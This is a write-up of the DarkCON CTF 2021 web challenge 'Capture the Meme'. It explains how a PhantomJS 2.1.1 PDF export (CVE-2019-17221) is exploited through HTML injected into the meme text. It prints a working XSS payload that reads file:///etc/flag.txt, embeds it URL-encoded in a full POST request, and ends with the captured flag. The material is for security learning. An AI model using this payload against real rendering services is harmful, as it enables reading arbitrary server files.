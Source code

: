 # DarkCON CTF 2021 – Capture the Meme

* **Category:** web
* **Points:** ?

## Challenge

> Made this meme generator for ya :) hope you like some memes 
> 
> Note: Flag at /etc/flag.txt
> 
> http://capture-the-meme.darkarmy.xyz/

## Solution

![index.png](index.png)

The web application allows you to create a meme specifying the URL of an image, the top text and the bottom text. The image can be exported in PDF format clicking on the "Export!" button.

Clicking on the button, the following request is created.

```
POST /export HTTP/1.1
Host: capture-the-meme.darkarmy.xyz
Content-Length: 93
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://capture-the-meme.darkarmy.xyz
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://capture-the-meme.darkarmy.xyz/
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=df45261952c636f9cab5329dc89f8aab11613847303
Connection: close

url=https%3A%2F%2Fimgflip.com%2Fs%2Fmeme%2FLaughing-Leo.png&upper=top+test&bottom=bottom+test
```

Creating a listener, you can discover that two requests are performed to retrieve the image.

```
user@machine:~$ sudo nc -lkp 1337
HEAD /foo.jpg HTTP/1.1
host: x.x.x.x:1337
content-length: 0
Connection: close

GET /foo.jpg HTTP/1.1
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: x.x.x.x:1337
```

*PhantomJS/2.1.1* is vulnerable to *CVE-2019-17221* and it is a deprecated package:
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17221](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17221);
* [https://github.com/h4ckologic/CVE-2019-17221/blob/master/PhantonJS_Arbitrary_File_Read.pdf](https://github.com/h4ckologic/CVE-2019-17221/blob/master/PhantonJS_Arbitrary_File_Read.pdf);
* [https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/](https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/).

After some analysis, you can discover that top and bottom texts parse the HTML, interpreting it.

So it is sufficient to craft a payload like the following for one of the two texts.

```html
<script>x = new XMLHttpRequest; x.onload = function() { document.write(this.responseText) }; x.open("GET", "file:///etc/flag.txt"); x.send();</script>
```

Putting the payload in a request like the following.

```
POST /export HTTP/1.1
Host: capture-the-meme.darkarmy.xyz
Content-Length: 292
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://capture-the-meme.darkarmy.xyz
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://capture-the-meme.darkarmy.xyz/
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=df45261952c636f9cab5329dc89f8aab11613847303
Connection: close

url=https%3A%2F%2Fimgflip.com%2Fs%2Fmeme%2FLaughing-Leo.png&upper=%3Cscript%3Ex+%3D+new+XMLHttpRequest%3B+x.onload+%3D+function%28%29+%7B+document.write%28this.responseText%29+%7D%3B+x.open%28%22GET%22%2C+%22file%3A%2F%2F%2Fetc%2Fflag.txt%22%29%3B+x.send%28%29%3B%3C%2Fscript%3E&bottom=bottom
```

A [PDF with the flag](export.pdf) will be returned.

```
darkCON{wh4t_1f_1_t01d_u_h4v3_r1ght_f14g_0f_th1s_ch411}
```